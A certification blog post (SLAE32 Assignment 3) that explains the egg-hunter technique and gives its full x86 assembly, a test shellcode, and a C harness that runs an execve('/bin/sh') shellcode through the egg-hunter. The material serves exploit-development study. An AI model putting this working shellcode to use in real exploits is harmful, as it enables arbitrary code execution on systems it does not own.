Title: SLAE32 - Assignment 3
Date: 2022-06-04T09:14:33.000Z


## Disclaimer

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-30398

## Source Code

The source code for this assignment can be found [here](https://github.com/rbctee/SlaeExam/tree/main/slae32/assignment/3).

Follows the list of files:

- [egg_hunter.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/3/egg_hunter.nasm), the Assembly code of the egg-hunter

- [test_egg_hunter.c](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/3/test_egg_hunter.c), a C program written for testing the egg-hunter with the `execve` shellcode

## Theory

Now comes the question: what is an `Egg Hunter`?

According to a [paper](https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf) from `Exploit-DB`:

<blockquote>
When the &quot;Egg hunter&quot; shellcode is executed, it searches for the unique &quot;tag&quot; that was prefixed with the large payload and starts the execution of the payload.<br>
[...]<br>
The Egg hunting technique is used when there are not enough available consecutive memory locations to insert the shellcode. Instead, a unique &quot;tag&quot; is prefixed with shellcode.

</blockquote>

## Practice

### Implementation

Given I had zero experience with `egg hunters`, I tried to search for documents detailing how to create this type of shellcode.

I stumbled on this particular document - [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) - which shows some techniques you can employ for your own implementation.

Since the `SIGSEGV handler technique` is considered `infeasible`, mainly due to its size, I decided to try using the `system call technique`.

The system call I chose to use is [chdir()](https://man7.org/linux/man-pages/man2/chdir.2.html). Follows its prototype:

```cpp
#include <unistd.h>

int chdir(const char *path);
```

All it does is try to change the `Current Working Directory` (`CWD`) to the path pointed to the argument `path` (which is a pointer).

Since it accepts a pointer, we can use it to test memory addresses. Given the function already implements a `SIGSEGV handler`, it doesn't throw a SIGSEGV error, crashing the program.

Instead, it returns the error `EFAULT` (`0xfffffff2`), indicating that a bad address was passed to the function.

Follows my implementation in Assembly language:

```nasm
; Author: Robert C. Raducioiu (rbct)

global _start

section .text

_start:

    ; clear registers for later use
    xor ebx, ebx
    mul ebx

; This routine checks loops over memory addresses, checking if they are valid
; If the address is valid the shellcode continues to CheckBytes
CheckAddress:

    ; increment memory address by 1 (or use "add ebx, 4" if
    ;   you're sure about the offset)
    inc ebx

    ; call chdir(EBX)
    xor eax, eax
    mov al, 12
    int 0x80

    ; if the return value is 0xfffffff2 (EFAULT), go back to CheckAddress,
    ;   otherwise continue to CheckBytes
    cmp al, 0xf2
    jz CheckAddress

; This routine checks the 4 bytes stored at the address validated by
;   Checkaddress. The goal is to find the Egg Hunter Tag, in this case "rbct"
CheckBytes:

    ; load the 4 bytes from the memory address we're checking
    mov edx, DWORD[ebx]

    ; string "rbcs"
    mov esi, 0x72626373
    
    ; increment esi, thus: "rbct"
    inc esi

    ; check if the 4 bytes are equal to the flag, otherwise
    ;   check the next 4 bytes
    cmp edx, esi
    jnz CheckAddress

    ; if the two DWORDs are equal, then increment the address by 4, and
    ;   execute the shellcode
    add ebx, 4
    call ebx
```

## Testing

I've tested this egg-hunter above with the `exit` shellcode. To do this, I've appended the following Assembly code at the end of the previous file:

```nasm
section .data

    shellcode: db 0x74, 0x63, 0x62, 0x72, 0x31, 0xc0, 0x40, 0xcd, 0x80
```

After running it, I've confirmed it works correctly:

```bash
# assembling
nasm -f elf32 egg_hunter.nasm

# linking
#   also set the stack as executable (for the exit shellcode)
ld -N -o egg_hunter egg_hunter.o

./egg_hunter
```

Instead of throwing a `SIGSEGV` error, it ran the exit shellcode successfully.

Next, I decided to try it with the `execve-stack` shellcode:

```cpp
#include <stdio.h>
#include <string.h>

// tag "rbct" prepended to the shellcode
unsigned char shellcode[] = "\x74\x63\x62\x72\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

// egg-hunter shellcode
unsigned char egghunter[] = "\x31\xdb\xf7\xe3\x43\x31\xc0\xb0\x0c\xcd\x80\x3c\xf2\x74\xf5\x8b\x13\xbe\x73\x63\x62\x72\x46\x39\xf2\x75\xe9\x83\xc3\x04\xff\xd3";

main() {
    printf("[+] Shellcode length: %d\n", strlen(shellcode));
    printf("[+] Egg-hunter length: %d\n", strlen(egghunter));

    // run the egg-hunter shellcode
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

I saved the `execve` shellcode inside an array named `shellcode`, while storing the egg-hunter shellcode inside the array `egghunter`.

Inside the `main` function, the programs prints the length of the two shellcodes, and finally executes the egg-hunter shellcode. It does so by getting the pointer of the latter, and turning it into a function.
